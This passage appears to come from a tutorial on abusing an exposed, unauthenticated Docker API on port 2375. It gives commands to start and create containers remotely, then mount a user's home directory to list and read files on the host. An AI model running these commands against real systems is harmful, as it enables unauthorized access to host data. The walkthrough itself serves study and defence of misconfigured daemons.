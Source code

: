Start a stopped container:

```powershell
docker -H <ip>:2375 start a1b2c3d4e5
```

<br>

### Create Containers

The Docker API also allows a remote user to download images and use them to create containers.

Pull an image:

```powershell
docker -H <ip>:2375 pull alpine
```

Start a new container with that image:

```powershell
docker -H <ip>:2375 run -t -d --name new_container_1 alpine
```

![](images/Exploring%20the%20Docker%20API/image013.png)<br><br>

### Read Files on the Host

Mounting a host directory when creating a container allows a remote user to read files on the host system:

```powershell
docker -H <ip>:2375 run -t -d --name new_container_2 -v /home/userone:/tmp/userone alpine
```

![](images/Exploring%20the%20Docker%20API/image014.png)<br><br>

Now the container can list the mounted directory and access sensitive files on the host machine:

```powershell
docker -H <ip>:2375 exec new_container_2 ls /tmp/userone
```
